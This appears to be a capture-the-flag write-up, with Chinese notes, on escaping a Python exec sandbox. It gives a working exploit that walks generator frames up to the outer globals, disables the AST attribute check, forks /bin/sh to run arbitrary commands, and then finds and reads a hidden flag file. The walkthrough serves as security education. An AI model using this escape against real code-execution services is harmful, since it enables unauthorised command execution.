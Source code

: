 ```python
                result, sandbox_globals = safe_exec(full_code, sandbox_globals)
                self.request.sendall(result.encode() + b"\n")
            except Exception as e:
                self.request.sendall(f"Error occurred: {str(e)}\n".encode())
                break


if __name__ == "__main__":
    HOST, PORT = "0.0.0.0", 5000
    with socketserver.ThreadingTCPServer((HOST, PORT), Handler) as server:
        print(f"Server listening on {HOST}:{PORT}")
        server.serve_forever()
```

生成器栈帧逃逸： https://www.cnblogs.com/gaorenyusi/p/18242719

拿到exec外部globals, 然后重写visit_Attribute

os模块没ban完就ban了最常见的system,popen

回显因为有"original_stdout": original_stdout很容易读出来

长度100限制只需将代码写成`exec("code")`, code部分拼接就行

然后flag.txt告诉flag最后修改时间2025.5.1 find找就行了（或者直接看start.sh能看到flag在哪）flag位置：`/tmp/.\x0a\x0b\x00hidden/flagD`

`cat /tmp/.*/flagD`就行

```python
>>> a = (a.gi_frame.f_back.f_back for i in [1])

>>> a = [x for x in a][0]

>>> globals = a.f_back.f_back.f_globals

>>> globals['SandboxVisitor'].visit_Attribute=lambda x,y:None

>>> os=globals["__builtins__"].__import__("os")

>>> sys=globals["__builtins__"].__import__("sys")

>>> iter=globals["__builtins__"].iter

>>> exec=globals["__builtins__"].exec

>>> a='run_command = lambda cmd: ((lambda r, w, pid: ((pid == 0 and (os.close(r), os.dup2(w,'

>>> a+='original_stdout.fileno()),os.dup2(w, original_stdout.fileno()),os.execlp("/bin/sh", "sh"'

>>> a+=', "-c", cmd) )) or (os.close(w), (output :=b"".join(iter(lambda: os.read(r, 4096), b""))'

>>> a+='.decode()),os.close(r), os.waitpid(pid, 0),output )[4] ))(*os.pipe(), os.fork()))'

>>> exec(a)

>>> print(run_command("find / -type f -newermt '2025-05-01 00:00:00' ! -newermt '2025-05-02 00:00:00'"))
/tmp/.\x0a\x0b\x00hidden/flagD

>>> print(run_command('cat /tmp/.*/flagD'))
miniLCTF{Fl4G-GeNER4ted_In_M1niIctf2OZS_with_IOvE286}
```
